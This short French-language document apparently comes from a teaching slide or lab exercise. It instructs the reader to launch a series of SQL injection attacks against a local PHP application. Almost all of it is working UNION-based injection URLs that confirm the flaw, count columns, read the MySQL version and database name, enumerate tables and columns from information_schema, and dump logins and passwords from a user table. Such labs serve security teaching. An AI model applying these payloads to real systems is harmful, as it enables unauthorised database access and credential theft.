

Apres avoir lancer l’application en PHP lancer les attaques suivantes :
//test si vulnerable
http://localhost/appListPersonel/index.php?id=1 ‘

//lire nombre des colonne
http://localhost/appListPersonel/index.php?id=1 order by 3

//get mysql version
http://localhost/appListPersonel/index.php?id=1 union all select 1,convert(@@version using latin1),3,4,5

//get database name
http://localhost/appListPersonel/index.php?id=1 union all select 1,version(),DATABASE(),4,5

//listes des tables db
http://localhost/appListPersonel/index.php?id=1 union all select 1,table_name,3,4,5 from information_schema.tables where TABLE_SCHEMA = 'boutique‘

// liste des colonne de la table utilisateur
http://localhost/appListPersonel/index.php?id=1 union all select 1,table_name,COLUMN_NAME,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'boutique' AND TABLE_NAME ='utilisateur';
http://localhost/appListPersonel/index.php?id=1 union all select 1,login,pass ,4,5  FROM utilisateur